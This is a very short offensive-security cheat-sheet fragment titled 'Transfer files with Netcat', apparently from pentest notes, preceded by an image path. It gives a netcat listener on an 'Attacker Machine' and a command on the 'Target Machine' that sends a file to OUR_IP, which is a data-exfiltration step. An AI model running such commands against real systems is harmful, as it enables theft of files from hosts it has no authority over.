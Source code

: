 ### Transfer files with Netcat

#### 1) Attacker Machine: nc -lvnp PORT > FILE

#### 2) Target Machine nc OUR_IP < FILE
